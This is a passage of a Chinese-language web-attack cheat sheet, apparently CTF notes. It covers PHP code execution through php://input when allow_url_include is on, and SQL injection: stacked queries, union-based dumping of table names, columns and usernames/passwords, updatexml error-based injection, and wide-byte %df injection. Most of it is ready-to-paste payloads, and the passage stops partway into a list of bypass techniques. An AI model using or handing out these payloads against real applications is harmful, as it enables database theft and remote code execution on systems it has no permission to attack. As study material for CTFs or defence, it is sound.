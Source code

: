 - 条件:allow_url_include 为 on ，可以访问请求的原始数据的只读流, 将post请求中的数据作为 PHP代码执行。当传入的参数作为文件名打开时，可以将参数设为 php://input ,同时post想设置的文件内容，php执行时会将post内容当作文件内容。

- 格式：
```
GET: ?text=php://input
POST : xxxx
```

## SQL注入思路

- 字符型还是整数型
- 是否为堆叠注入
> show databases;   获取数据库名
> show tables;  获取表名
> show columns from `table_name`; 获取列名
例子：    
1';show tables;#
1';show columns from `table_name`;#
## SQL手工注入语句

```
1' union select 1,database(),3# 
爆出数据库 
1' union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database()#
爆出表名 geekuser,l0ve1ysq1
1' union select 1,database(),group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1'#
爆出字段名 id,username,password
1' union select 1,database(),group_concat(id,username,password) from l0ve1ysq1 #
爆出字段内容
报错注入语句
               1 and updatexml(1,concat(0,database(),0,user(),0,@@datadir),1)#
?username=admin%27or(updatexml(1,concat(0x7e,(SELECT(database())),0x7e),1))%23
?username=admin%27or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))%23
?username=admin%27or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))%23
?username=admin%27or(updatexml(1,concat(0x7e,(select(password)from(H4rDsq1)),0x7e),1))%23
?username=admin%27or(updatexml(1,concat(0x7e,(select(left(password,30))from(H4rDsq1)),0x7e),1))%23
right()
```

**宽字节注入**

```
1%df' and 1=1 --+
1%df' and 1=2 --+ 

-1%df' union select 1,2 --+
-1%df' union select 1,database() --+
-1%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() --+
-1%df' union select 1,group_concat(column_name) from information_schema.columns where table_name=0x63746634 --+
-1%df' union select 1,flag from ctf4 --+

```
## SQL绕过思路
**单引号绕过**
- 十六进制替代
    - 0xxxxx
